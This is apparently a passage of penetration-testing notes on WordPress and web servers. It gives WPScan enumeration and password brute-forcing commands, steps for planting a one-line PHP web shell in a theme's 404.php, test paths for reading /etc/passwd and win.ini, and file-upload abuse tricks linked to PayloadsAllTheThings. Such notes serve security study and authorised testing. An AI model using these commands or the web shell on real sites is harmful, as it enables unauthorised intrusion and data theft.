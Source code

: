 ##### WPscan

- **enumeration**

  ```bash
  sudo wpscan --url [URL] --enumerate --api-token dEOFB<SNIP>
  ```

- **login brute-forcing**

  ```bash
  sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url [URL]
  ```

- **Code-Execution** (administrative access) [Also on Metaspoit]

  1. `Appearance` on the side panel &rarr; Theme Editor. 
  2. Select a theme (better non active)
  3. Edit the php code of an uncommon page (e.g. 404.php) by adding a web shell `system($_GET[0]);`
  4. Click on `Update File` at the bottom to save. 

# Exploitation

## Server-side

**Test Files** to check if the vulnerability is there:

- Linux: `"/etc/passwd"`
- Windows file: `'file"///c:/windows/win.ini'`

### File Upload

[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload Insecure Files)

##### Upload Directory

- Fuzz
- Use other vulnerabilities to find the upload files by reading the web application code (e.g. php filters)
- Force error messages
  - Upload a file with a name that already exists
  - Send two identical requests simultaneously
  - Upload a file with a very long name (e.g., 5,000 characters)
  - Windows specific:
    - Use reserved characters in the file name, such as `|`, `<`, `>`, `*`, or `?`
    - Usereserved names for the uploaded file name, like (`CON`, `COM1`, `LPT1`, or `NUL`)

##### Allowed file Abuse

- **Configuration Files**

  - [.htaccess](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20Apache.htaccess) / [httpd.conf](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20Busybox%20httpd.conf)  → Apache
  - [web.config](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20IIS%20web.config)            → ASP.NET
  - [package.json](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files#configuration-files)          → NodeJS Packages
  - [composer.json](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files#configuration-files)         → PHP Packages
  - [__init__.py](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20Python%20__init__.py)
  - [uwsgi.ini](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20uwsgi.ini/uwsgi.ini)

